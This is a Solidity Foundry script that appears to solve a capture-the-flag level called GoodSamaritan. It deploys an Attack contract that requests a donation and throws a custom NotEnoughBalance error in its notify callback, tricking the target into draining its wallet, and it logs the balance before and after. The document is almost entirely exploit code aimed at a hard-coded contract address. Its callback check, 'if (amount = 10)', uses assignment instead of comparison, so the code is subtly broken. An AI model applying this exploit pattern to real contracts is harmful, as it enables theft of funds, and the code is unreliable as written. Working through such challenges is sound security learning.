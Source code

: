 **Level27Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import "../src/Level27.sol";

contract Level27Sol is Script {
    GoodSamaritan public instance =
        GoodSamaritan(0x99A5FD376b27d513922E7b0bc36DbBb1941b31F6);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log(
            "Balance of Wallet before attack",
            instance.coin().balances(address(instance.wallet()))
        );

        new Attack().exploit();

        console.log(
            "Balance of Wallet after attack",
            instance.coin().balances(address(instance.wallet()))
        );

        vm.stopBroadcast();
    }
}

contract Attack {
    error NotEnoughBalance();

    GoodSamaritan public instance =
        GoodSamaritan(0x99A5FD376b27d513922E7b0bc36DbBb1941b31F6);

    function exploit() public {
        instance.requestDonation();
    }

    function notify(uint256 amount) external {
        if (amount = 10) {
            // only revert when receiving 10 coins
            revert NotEnoughBalance();
        }
    }
}

```
